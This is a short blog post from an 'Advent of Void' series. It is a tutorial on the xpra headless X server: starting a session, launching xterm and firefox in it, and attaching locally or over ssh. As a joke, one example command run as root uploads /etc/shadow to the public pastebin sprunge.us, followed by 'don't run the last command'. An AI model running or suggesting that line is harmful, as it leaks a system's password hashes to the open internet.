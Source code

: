 ```yaml
---
layout: post
title: "The Advent of Void: Day 12: xpra"
comments: true
---
```


Here's our first tool using a GUI: [xpra(1)](https://man.voidlinux.eu/xpra.1) is
a headless X-Server that allows remotely detaching and attaching its windows 
from multiple platforms including X11, Windows, and Mac.

To use xpra you have to start a new session:

```
# xpra start :14
```

Once xpra has the server running on `:14` you can start clients in the
session:

```
# DISPLAY=:14 xterm &
# DISPLAY=:14 firefox &
# DISPLAY=:14 curl -F sprunge=@/etc/shadow http://sprunge.us &
```

... Actually [don't run the last command](https://twitter.com/Kuwaddo/status/940288213314359296).

To attach the xpra session just use the `attach` command:

```
# xpra attach :14
```

This attaches a local xpra server to the current display. The started X11 should be shown on the screen now.
To detach the session hit `Ctrl`+`C`.

The real power of xpra comes with the remote attaching feature:

```
xpra attach ssh:remote-server:14
```

This command opens a ssh connections to `remote-server` and attaches
xpra through a secure tunnel. xpra supports multiple encodings, 
including h264, so in contrast to plain X11 over ssh it's incredible fast.

To find out more about xpra, visit the [website](https://xpra.org/).